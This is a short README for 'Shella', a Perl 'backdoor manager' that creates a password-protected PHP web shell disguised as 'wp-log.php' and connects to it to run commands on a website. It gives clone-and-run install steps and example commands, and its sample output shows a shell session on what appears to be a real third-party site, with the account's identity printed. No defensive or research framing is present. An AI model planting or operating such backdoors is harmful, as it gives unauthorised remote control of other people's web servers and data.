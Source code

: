 
## Shella | Simple Backdoor Manager with Perl

![Screenshoot](Screenshot_20250730-063507-picsay.png)
<br>
Shella is a simple tool that is written using Perl, which functions to remote a website
<br>
### Instalation :

$ git clone https://github.com/meico-wq/Shella<br>
$ cd Shella <br>
$ perl shell.pl <br>

### Requirements :

<pre>
cpan install Config::IniFiles
cpan install LWP::UserAgent
cpan install IO::Prompt
</pre>

### Example :
<pre>

perl shell.pl -g wp-log -p mei1337
  
Perl shell |
Generate :
[+] ./shell.pl -g "nama_shell" -p "password"
Connect Server :
[+] ./shell.pl -u "url_shell" -p "password"

Backdoor berhasil dibuat dengan nama wp-log.php dan password mei1337

meicookies@heker:~/Tools$ perl shell.pl -u "https://www.pamz3d.com/wp-log.php" -p mei1337
/opt/lampp/htdocs/php-futsal$ id
uid=501(pamz3d) gid=501(pamz3d) groups=501(pamz3d)
</pre>
